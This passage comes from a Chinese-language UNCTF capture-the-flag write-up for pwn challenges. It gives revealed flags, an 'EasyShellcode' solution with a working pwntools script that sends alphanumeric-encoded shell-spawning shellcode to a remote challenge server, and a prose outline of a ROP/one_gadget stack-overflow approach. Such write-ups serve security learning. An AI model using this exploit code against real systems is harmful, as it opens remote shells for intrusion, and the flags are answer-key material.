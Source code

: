```
       except Exception as e:
                sh.close()
```

[![](https://p3.ssl.qhimg.com/t01c1ca90119886610c.png)](https://p3.ssl.qhimg.com/t01c1ca90119886610c.png)

得到flag：UNCTF`{`S0soE4zy_Pwn`}`

### <a name="header-n285"></a>EasyShellcode

反汇编看程序逻辑，就只是限制了shellcode的字符，要求在A-Za-z0-9之间

直接上V爷爷将shellcode转base64的工具

https://github.com/veritas501/ae64

exp：

```
from pwn import *
from ae64 import AE64
context.log_level = 'debug'

p=remote('101.71.29.5',10080)
p.recvuntil('say?\n')
obj = AE64()
sc = obj.encode(asm(shellcraft.sh()))
p.sendline(sc)
p.interactive()
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0179595b6b28cd5641.png)

flag：UNCTF`{`x64A5c11shE11c0dEi550_Ea5y`}`

### <a name="header-n293"></a>easy rop

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01759f7cce9c0eaea9.png)

这个很好绕过

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t013871b803b0d0c557.png)

发现有一个栈溢出，而且retaddr做了限制，这样就不能直接ret到system了（这里我用的是one_gadget），但是可以找gadget绕过（这里我找的是 ret ）

其中libc版本用LibcSearcher泄露出来，然后payload的偏移需要用’\x00’来填充，以满足one_gadget的条件。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ce2f71ec4f2627f1.png)
